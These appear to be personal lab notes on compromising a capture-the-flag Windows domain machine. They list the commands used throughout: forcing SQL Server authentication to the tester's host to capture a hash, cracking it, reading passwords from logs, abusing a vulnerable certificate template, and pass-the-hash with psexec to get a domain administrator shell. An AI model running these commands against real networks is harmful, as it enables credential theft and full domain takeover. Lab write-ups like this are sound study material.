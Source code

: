 # Take Away
- Logs are important and can sometimes contains sensitive information like passwords.
- One thing that always needs enumeration on a Windows domain is to look for Active Directory Certificate Services (ADCS). A quick way to check for this is using `netexec`
	- `ldap ... -M adcs`
# Metadata
- Enumerating and downloading the file within publicly-accessible share `Public` using `netexec smb 10.10.11.202 -u guest -p "" -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=/home/saxon/Desktop/smb` will reveal a `.pdf` file containing a pair of `mssql` credential `PublicUser:GuestUserCantWrite1`.![[Pasted image 20240302142447.png]]
- After logging in with `impacket-mssqlclient PublicUser:GuestUserCantWrite1@10.10.11.202`, one does not have the privilege to enable `xp_cmdshell` but can call `xp_dirtree \\10.10.14.6\test,1,1` to force authentication.
	- Run `sudo responder -i tun0 -A` to capture the authentication request and extract `NET-NTLMv2` hash.![[Pasted image 20240302145354.png]]
- Use `hashcat -m 5600 sql_svs.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` to crack the hash to obtain a pair of valid domain credential `sql_svc:REGGIE1234ronnie`.![[Pasted image 20240302152340.png]]
- Spraying the credential, one can identify that `sql_svc` can access the host using `winrm`.![[Pasted image 20240302152935.png]]
- One thing that always needs enumeration on a Windows domain is to look for Active Directory Certificate Services (ADCS). A quick way to check for this is using `netexec`
	- Add the `10.10.11.202 dc.sequel.htb` to `/etc/host`.
	- Run `netexec ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs` to confirm the existence of PKI from ADCS.![[Pasted image 20240302172918.png]]
- Running `certipy-ad find -dc-ip 10.10.11.202 -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -stdout -vulnerable` will identify a vulnerable certificate template.![[Pasted image 20240302170418.png]]
# Exploitation
- Obtain a session with `evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie` as user `sql_svc`.
	- Navigate to `C:\SQLServer\Logs` and go through `ERRORLOG.BAK` to identify a another pair of potential credential `sequel.htb\Ryan.Cooper:NuclearMosquito3`.![[Pasted image 20240302155036.png]]
	- Spraying the credential again can find that it can be used to access the host using `winrm`.![[Pasted image 20240302155207.png]]
-  Obtain a session with `evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3` as user `Ryan.Cooper`.
# PrivEsc
- Run `certipy-ad req -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -dc-ip 10.10.11.202 -target 10.10.11.202 -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication` to get a `.pfx` file as `sequel\administrator`.
- Upload `Rubeus.exe` and `administrator.pfx` to the target host. Run `.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /getcredentials` to obtain the `NTLM` hash `A52F78E4C751E5F5E17E1E9F3E58F4EE` of the domain administrator account.![[Pasted image 20240302193035.png]]
- Run `impacket-psexec -hashes :A52F78E4C751E5F5E17E1E9F3E58F4EE sequel/administrator@10.10.11.202 powershell.exe` to obtain a shell session as domain administrator.